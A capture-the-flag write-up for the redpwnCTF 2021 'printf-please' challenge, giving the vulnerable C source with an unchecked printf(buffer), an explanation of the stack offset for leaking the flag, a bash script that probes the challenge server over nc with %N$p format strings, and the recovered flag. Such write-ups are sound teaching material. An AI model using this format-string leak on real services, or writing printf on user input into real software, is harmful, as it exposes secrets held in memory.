 # redpwnCTF 2021

## printf-please

> NotDeGhost
> 
> rob keeps making me write beginner pwn! i'll show him...
>
> `nc mc.ax 31569`
>
> [please](please) [please.c](please.c)


Tags: _pwn_ _x86-64_ _format-string_


## Summary

Classic _leak the flag from the stack_.


## Analysis

### Source Included

```c
#include <stdio.h>
#include <fcntl.h>

int main(void)
{
  char buffer[0x200];
  char flag[0x200];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);

  memset(buffer, 0, sizeof(buffer));
  memset(flag, 0, sizeof(flag));

  int fd = open("flag.txt", O_RDONLY);
  if (fd == -1) {
    puts("failed to read flag. please contact an admin if this is remote");
    exit(1);
  }

  read(fd, flag, sizeof(flag));
  close(fd);

  puts("what do you say?");

  read(0, buffer, sizeof(buffer) - 1);
  buffer[strcspn(buffer, "\n")] = 0;

  if (!strncmp(buffer, "please", 6)) {
    printf(buffer);
    puts(" to you too!");
  }
}
```

The flag is read into `flag` (on stack).  To read, use the `printf(buffer)` vuln to read any arbitrary value from the stack with `%xx$p` where `xx` starts at `06` (top of stack). Since `buffer` is allocated first, you'll need to start at `0x200 / 8 + 6` (70).

> Oh, don't for get to start with `please` :-)


## Exploit

```bash
#!/bin/bash

for ((i=70;;i++)) {
    B=$(echo 'please %'$i'$p' | nc mc.ax 31569 | grep please | awk '{print $2}')
    if echo $B | grep '7d' >/dev/null 2>&1
    then
        echo $B | sed 's/.*7d/7d/' | xxd -r -p | rev; echo
        break
    fi
    echo $B | awk -Fx '{print $2}' | xxd -r -p | rev
}
```


Output:

```bash
# ./sol.sh
flag{pl3as3_pr1ntf_w1th_caut10n_9a3xl}
```
